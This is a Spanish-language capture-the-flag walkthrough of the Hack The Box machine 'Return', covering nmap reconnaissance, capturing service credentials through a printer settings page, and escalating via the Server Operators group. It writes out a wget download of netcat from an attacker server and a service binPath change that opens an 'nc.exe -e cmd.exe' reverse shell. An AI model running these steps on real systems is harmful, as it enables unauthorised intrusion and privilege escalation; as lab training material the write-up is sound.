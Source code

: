 ```yaml
---
title: Writeup return - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - return
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina return en Hack The Box.
keywords:
  - writeup return
  - hack the box return
  - resolución máquina return
  - return hack the box
  - htb return
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Return)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=pcCfAdKNyao)
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping #ad #activedirectory #/etc/hosts #whatweb #wappalyzer #serveroperatorsgroup #mkdir #cd #whoami #netuser #evil-winrm #rwrapncnlvp443 #python3httpserver 

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.120.149
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.120.149 -oG allPortsTCP
extractPorts allPortsTCP
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49676,49680,49694,52847 10.129.120.149 -oN targetTCP
nmap -sU --top-ports 200 -n -Pn 10.129.120.149 -oG allPortsUDP
extractPorts allPortsUDP
nmap -sU -sCV -p53,88,123,137,138,389,464,500,1036,1419,4500,5353,5355,49187,65024 10.129.120.149 -oN targetUDP
```
![[Return3.png]]
![[Return4.png]]
![[Return5.png]]
![[Return6.png]]
![[Return1.png]]
![[Return2.png]]

![[Return7.png]]
![[Return9.png]]

*TTL:* Maquina Windows
*Puertos Importantes TCP:*
	`445` [[smb]]
	`5985` [[evil-winrm]]
*Puertos Importantes UDP*
	Mucho ruido
*Datos Importantes:*
	Nos aparece el dominio return.local0

------
# Agregamos dominio al /etc/hosts

Con [[nvim]] abrimos el archivo /etc/hosts siendo sudo y usando el comando `nvim /etc/hosts`

```
10.129.120.149 return.local0
```

![[Return8.png]]

----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.120.149/
```

![[Return11.png]]

![[Return10.png]]
PHP 7.4.13 y IIS10.0

-------
# Intrusion a la maquina

![[Return12.png]]
Y en settings nos da esto

![[Return13.png]]
Ahora mientras estamos en escucha con [[nc -nlvp 443]] vamos a poner nuestra ip en la parte de *Server Adress*

![[Return14.png]]
![[Return15.png]]
Y obtenemos estos datos: 1edFg43012!!

## Conexion a la maquina con [[evil-winrm]]

```
evil-winrm -i 10.129.120.149 -u 'svc-printer' -p '1edFg43012!!' -P 5985
```

![[Return19.png]]

Ya estamos adentro y podemos catear la flag de user.txt
![[Return20.png]]

-------
# Escalada de privilegios con [[Server Operators group]]

Usamos [[whoami]] con el comando `whoami /all` para ver todos los permisos que tiene nuestro usuario y vemos el 


![[Return31.png]]
Vamos a guiarnos con este [articulo](https://www-hackingarticles-in.translate.goog/windows-privilege-escalation-server-operator-group/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es) para hacer la escalada

Tambien con [[net user]] usando el comando `net user svc-printer` podemos mostrar los detalles del acuenta
![[Return24.png]]

Ahora con el comando [[services]] vamos a enumerar todos los ervicios de windows instalados en la amquina
![[Return25.png]]

Ahora vamos a pasarnos el [[Netcat]] levantando un servidor desde nuestra maquina de atacante con [[python3 -m http.server]] usando el comando `python3 -m http.server 80`

![[Return27.png]]
Ahora con [[cd]] vamos a usar `cd C:\` y luego vamos a crear con [[mkdir]] usando el comando `mkdir temp`  y luego encontramos con `cd temp`.  Esto lo hacemos para estar en una carpeta que no vayamos a tener ningun problema con los permisos
Con [[wget]] vamos a descargarlo desde la maquina victima con el coando `wget http://10.10.16.69/nc64.exe -outfile nc64.exe`


![[Return26.png]]
Ahora vamos a ejecutar las instrucciones que nos da el articulo para enviarnos una [[Reverse shell]] mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]
La idea es que configuremos el servicio de vm para que ejecute la accion de la [[Reverse shell]] y a posteriori reiniciamos el servicio asi se ejecuta nuesstra nueva instruccion

```
sc.exe config VMTools binPath= "C:\temp\nc.exe -e cmd.exe 192.168.1.205 1234"           /Cargamos la configuracion
sc.exe stop VMTools        /Paramos el servicio
sc.exe star VMTools        /Volvemos a iniciar el servicio
```
![[Return28.png]]

![[Return29.png]]
Y listo ya somos root y podemos catear las flags

![[Return32.png]]
![[Return30.png]]

------
# Notas


Intente escalar privilegios con [[SeBackupPrivilege]], pero cuando intente decifrar los datos del archivo sam tiraba este error
![[Return23.png]]


------




